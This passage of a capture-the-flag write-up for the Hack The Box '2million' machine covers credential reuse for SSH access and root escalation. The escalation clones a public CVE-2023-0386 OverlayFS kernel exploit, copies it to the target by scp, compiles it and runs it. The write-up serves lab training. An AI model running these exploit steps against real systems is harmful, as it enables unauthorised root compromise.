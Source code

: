 > It didn't work, so I decided to try ssh woith the same password as the database and worked! Found the user flag :)

![](Pasted%20image%2020241029224133.png)

## Privilege Escalation

If we inspect the content of the `/var/mail/admin` we can infer that the OS is outdated:

```shell
admin@2million:~$ vim /var/mail/admin 

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

It's important to know the kernel of the machine first:

```shell
uname -a

Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```


So if we find in goole `overlaysfs exploit` we get this one: [CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386), and execute it in the victim's machine:

```shell
# First we clone the repo locally
git clone https://github.com/sxlmnwb/CVE-2023-0386.git

zip -r cve.zip CVE-2023-0386

# Send it to the remote machine
scp cve.zip admin@2million.htb:/tmp
```

Now perform the official instructions of the exploit:

```shell
# First install it
make all

# Now, Start two terminals and in the first one type
./fuse ./ovlcap/lower ./gc

# In the second terminal type
./exp
```

> We are now root, and got the root flag:

![](Pasted%20image%2020241029225843.png)